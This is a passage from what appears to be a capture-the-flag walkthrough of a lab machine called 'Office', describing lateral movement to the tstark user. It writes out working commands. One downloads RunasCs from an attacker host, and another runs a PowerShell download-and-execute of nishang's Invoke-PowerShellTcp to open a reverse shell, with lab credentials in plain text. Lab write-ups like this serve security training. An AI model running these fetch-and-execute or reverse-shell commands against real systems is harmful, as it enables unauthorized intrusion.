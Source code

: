 
## Lateral movement

### Moving to tstark user
So our first lateral movement would be to get a reverse shell as the **tstark** user. I hosted a copy of  **Invoke-PowerShellTcp.ps1** script of [nishang](https://github.com/samratashok/nishang) This github repo contains multiple powershell scripts including reverse shells and other post exploitation tools. next i setup a webserver in the shells directory of the github project using python.


```
python -m http.server 80
```
Next up we'll need the tool [RunasCS](https://github.com/antonioCoco/RunasCs) to help us run our reverse shell from a non interactive shell.

On the client we need to first download the RunasCS binary 

```powershell
curl "http://10.10.16.67/RunasCs.exe" -o RunasCs.exe
```

Next up we can run a command as webservice using the following command, reverse shell we'll re-use the same one we used before but this time with a different port

```powershell
.\RunasCs.exe tstark playboy69 "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.67/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.67 -Port 444" 
```

![Lateral movement to tstark](/assets/img/Office/Office_20.png)



### Moving to ppots user

While enumerating the system i could see that there are actually multiple sites being used of which one was internal only website.This website did not have a lot of source code only two files. We will look deeper into the **resume.php** file

![Internal website](/assets/img/Office/Office_23.png)
